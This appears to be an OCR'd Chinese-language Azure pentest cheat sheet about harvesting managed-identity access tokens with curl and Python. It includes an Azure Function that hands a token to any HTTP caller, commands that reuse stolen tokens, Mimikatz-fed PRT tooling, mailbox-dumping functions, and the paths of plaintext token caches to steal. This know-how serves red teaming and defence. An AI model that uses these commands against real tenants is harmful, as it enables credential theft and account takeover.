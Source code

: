 	来自托管身份的令牌
	MSI_ENDPOINT是IDENTITY_ENDPOINT的别名，MSI_SECRET是IDENTITY_HEADER的别名。
	从环境中找到 IDENTITY_HEADER 和 IDENTITY_ENDPOINT ：env
	大多数情况下，您需要以下资源之一的令牌：
	https://storage.azure.com
	https://vault.azure.net
	https://graph.microsoft.com
	https://management.azure.com
 #### 通过 Powershell 的 Azure API
  	从IDENTITY_HEADER和IDENTITY_ENDPOINT获取access_token : 。system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');
	然后查询 Azure REST API 以获取订阅 ID等。
	$Token = 'eyJ0eX..'
	$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'
	# $URI = 'https://graph.microsoft.com/v1.0/applications'
	$RequestParams = @{
	 Method = 'GET'
	 Uri = $URI
	 Headers = @{
	 'Authorization' = "Bearer $Token"
	 }
	}
	(Invoke-RestMethod @RequestParams).value 
	列出资源并检查 runCommand 权限
	$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'
	$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/<RG-NAME>/providers/Microsoft.Compute/virtualMachines/<RESOURCE/providers/Microsoft.Authorization/permissions?apiversion=2015-07-01'
 #### 通过 Python 版本的 Azure API
  	IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
	IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

	print("[+] Management API")
	cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
	val = os.popen(cmd).read()
	print("Access Token: "+json.loads(val)["access_token"])
	print("ClientID/AccountID: "+json.loads(val)["client_id"])

	print("\r\n[+] Graph API")
	cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
	val = os.popen(cmd).read()
	print(json.loads(val)["access_token"])
	print("ClientID/AccountID: "+json.loads(val)["client_id"])
	或在 Python 函数中
	import logging, os
	import azure.functions as func

	def main(req: func.HttpRequest) -> func.HttpResponse:
	    logging.info('Python HTTP trigger function processed a request.')
	    IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
	    IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
	    cmd = 'curl "%s?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
	    val = os.popen(cmd).read()
	    return func.HttpResponse(val, status_code=200)
 #### 获得令牌
	主刷新令牌的有效期为 14 天！

	az cli
	az account get-access-token 
	az account get-access-token --resource-type aad-graph
	或者Az
	(Get-AzAccessToken -ResourceUrl https://graph.microsoft.com).Token
	或从使用 IDENTITY_HEADER 和 IDENTITY_ENDPOINT 的托管标识
 #### 使用令牌
	令牌包含所有声明，包括 MFA 和条件访问的声明

	AZ Powershell
	PS C:\Tools> $token = 'eyJ0e..'
	PS C:\Tools> Connect-AzAccount -AccessToken $token -AccountId <ACCOUNT-ID>

	# Access Token and Graph Token
	PS C:\Tools> $token = 'eyJ0eX..'
	PS C:\Tools> $graphaccesstoken = 'eyJ0eX..'
	PS C:\Tools> Connect-AzAccount -AccessToken $token -GraphAccessToken $graphaccesstoken -AccountId <ACCOUNT-ID>
	PS C:\Tools> Get-AzResource
	ERROR: 'this.Client.SubscriptionId' cannot be null.
	托管标识对任何 Azure 资源都没有权限。 切换到 GraphAPI
	AzureAD
	Import-Module C:\Tools\AzureAD\AzureAD.psd1
	$AADToken = 'eyJ0…'
	Connect-AzureAD -AadAccessToken $AADToken -TenantId <TENANT-ID> -AccountId <ACCOUNT-ID>
 #### 刷新令牌
	https://github.com/ConstantinT/Lantern
	Lantern.exe cookie --derivedkey <Key from Mimikatz> --context <Context from Mimikatz> --prt <PRT from Mimikatz>
	Lantern.exe mdm --joindevice --accesstoken (or some combination from the token part) --devicename <Name> --outpfxfile <Some path>
	Lantern.exe token --username <Username> --password <Password>
	Lantern.exe token --refreshtoken <RefreshToken>
	Lantern.exe devicekeys --pfxpath XXXX.pfx --refreshtoken (--prtcookie / ---username + --password ) 
	https://github.com/rvrsh3ll/TokenTactics
	Import-Module .\TokenTactics.psd1
	CommandType     Name                                               Version    Source
	-----------     ----                                               -------    ------
	Function        Clear-Token                                        0.0.1      TokenTactics
	Function        Dump-OWAMailboxViaMSGraphApi                       0.0.1      TokenTactics
	Function        Forge-UserAgent                                    0.0.1      TokenTactics
	Function        Get-AzureToken                                     0.0.1      TokenTactics
	Function        Get-TenantID                                       0.0.1      TokenTactics
	Function        Open-OWAMailboxInBrowser                           0.0.1      TokenTactics
	Function        Parse-JWTtoken                                     0.0.1      TokenTactics
	Function        RefreshTo-AzureCoreManagementToken                 0.0.1      TokenTactics
	Function        RefreshTo-AzureManagementToken                     0.0.1      TokenTactics
	Function        RefreshTo-DODMSGraphToken                          0.0.1      TokenTactics
	Function        RefreshTo-GraphToken                               0.0.1      TokenTactics
	Function        RefreshTo-MAMToken                                 0.0.1      TokenTactics
	Function        RefreshTo-MSGraphToken                             0.0.1      TokenTactics
	Function        RefreshTo-MSManageToken                            0.0.1      TokenTactics
	Function        RefreshTo-MSTeamsToken                             0.0.1      TokenTactics
	Function        RefreshTo-O365SuiteUXToken                         0.0.1      TokenTactics
	Function        RefreshTo-OfficeAppsToken                          0.0.1      TokenTactics
	Function        RefreshTo-OfficeManagementToken                    0.0.1      TokenTactics
	Function        RefreshTo-OutlookToken                             0.0.1      TokenTactics
	Function        RefreshTo-SubstrateToken                           0.0.1      TokenTactics
 #### 窃取令牌
  	获取 AzurePasswords
	>Import-Module Microburst.psm1
	>Get-AzurePasswords
	>Get-AzurePasswords -Verbose | Out-GridView
	从 az cli 窃取令牌
	az cli 将访问令牌以明文形式存储在目录中的accessTokens.json中C:\Users\<username>\.Azure
	同一目录中的 azureProfile.json 包含有关订阅的信息。
	从 az powershell 窃取令牌
	Az PowerShell 将访问令牌以明文形式存储在目录中的TokenCache.dat中C:\Users\<username>\.Azure
	它还在AzureRmContext.json中以明文形式存储ServicePrincipalSecret
	用户可以使用保存令牌Save-AzContext